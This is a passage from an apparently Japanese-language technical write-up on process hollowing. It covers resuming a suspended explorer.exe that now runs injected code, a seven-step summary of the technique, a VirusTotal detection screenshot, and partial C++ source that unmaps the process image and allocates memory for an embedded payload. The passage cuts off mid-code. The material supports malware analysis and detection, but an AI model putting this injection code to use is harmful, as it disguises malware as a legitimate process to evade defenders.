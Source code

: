 ![process_hollowing11](https://github.com/user-attachments/assets/d2695498-3cab-4993-8754-bf19d1310143)

[写真 22] Process Hollowing Step 10

![code3-2](https://github.com/user-attachments/assets/843278b8-1037-477a-bac9-a2f18285d4b9)

[写真 23] Process Hollowing Step 10 (code)

- `resume()` を呼び出し、停止状態だったプロセスを再実行する。  
- しかし、この時点から実行されるコードは、**元のexplorer.exeではなく、マルウェアコード**となる。

## Process Hollowingの手順まとめ

1. **正規プロセス（explorer.exe）を実行**
2. **既存のPEイメージをアンマップして削除**
3. **マルウェアコード注入のためのメモリ割り当て**
4. **PEファイルをロードし、ヘッダー＆セクションデータをコピー**
5. **再配置（Relocation）を適用**
6. **エントリーポイント（Entry Point）を変更**
7. **プロセスを再開 → 正規プロセスに偽装して実行**

![hollow_test_virustotal](https://github.com/user-attachments/assets/d0eaebf5-9319-4066-8612-48101f02d7dd)

[写真 24] 使用された**hollow_test.exe**をVirusTotalにアップロードした結果、**23/71のエンジンでマルウェアとして検出**。

## **使用されたProcess Hollowingコード**

```cpp
#include <Windows.h>

#include "process_.h"
#include "injector.h"

#include "pe.h"

WCHAR wszProcessPath[] = L"explorer.exe";

unsigned char malwareTarget[2203648] = { // explorer.exeのバイナリ値 }
int WINAPI WinMain(
	HINSTANCE hInstance,
	HINSTANCE hPrevInstance,
	PSTR lpCmdLine,
	INT nCmdShow
)
{
	process normalProcess;

	if (normalProcess.create(wszProcessPath, true, false))
	{
		ULONG_PTR imagebase = normalProcess.imagebase();

		if (normalProcess.unmap(imagebase, false)) // Step3
		{
			injector injector(normalProcess.handle());

			pe malwr(malwareTarget, 2203648);
			ULONG malwr_size = malwr.imageSize();

			LONG_PTR relativeOffset = 0;

			ULONG_PTR malwrAddr = injector.alloc(malwr_size, imagebase, false); // Step4: target process メモリ割り当て

			if (malwrAddr != 0)
```